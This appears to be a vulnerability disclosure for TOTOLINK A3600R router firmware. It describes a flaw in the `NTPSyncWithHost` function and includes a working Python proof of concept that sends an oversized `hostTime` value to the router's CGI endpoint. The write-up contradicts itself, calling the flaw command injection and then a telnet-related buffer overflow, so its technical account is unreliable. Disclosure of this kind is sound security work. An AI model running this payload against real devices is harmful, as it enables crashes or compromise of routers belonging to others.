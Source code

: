 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `NTPSyncWithHost` function. The `v5` variable receives the `hostTime` parameter from a POST request. However, since the user can control the input of `hostTime`, the telnet service can cause a buffer overflow vulnerability.

![image-20240721001553553](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001553553.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
    "topicurl":"setting/NTPSyncWithHost",
    "hostTime":"a"*1000
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721001819494](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001819494.png)
